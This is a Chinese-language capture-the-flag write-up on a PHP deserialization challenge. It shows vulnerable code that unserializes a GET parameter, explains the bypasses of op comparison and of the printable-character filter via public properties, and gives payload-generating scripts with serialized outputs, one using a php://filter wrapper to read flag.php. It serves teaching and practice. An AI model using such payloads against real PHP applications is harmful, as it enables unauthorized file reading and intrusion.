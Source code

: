 ```php
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```

首先找到可利用的危险函数\*\*file\_get\_content()\*\*然后逐步回溯发现是\_\_destruct()--&gt; process()--&gt;read()这样一个调用过程。

两个绕过：1.\_\_destruct()中要求op！===2且process()中要求op==2

这样用$op=2绕过

2.绕过is\_valid()函数，private和protected属性经过序列化都存在不可打印字符在32-125之外，但是对于PHP版本7.1+，对属性的类型不敏感，我们可以将protected类型改为public，以消除不可打印字符。

```php
<?php
class FileHandler {
  public $op = 2;
  public $filename = "/var/www/html/flag.php";
  public $content;
}
$obj = new FileHandler();
echo serialize($obj);
?>
/*输出：
O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:22:"/var/www/html/flag.php";s:7:"content";N;}
*/
```

```php
<?php
class FileHandler {

    public $op=2;
    public $filename="php://filter/read=convert.base64-encode/resource=flag.php";
    public $content;

}

$obj = new FileHandler();
echo serialize($obj);
?>
/*输出：
O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";s:7:"content";N;}
*/
```
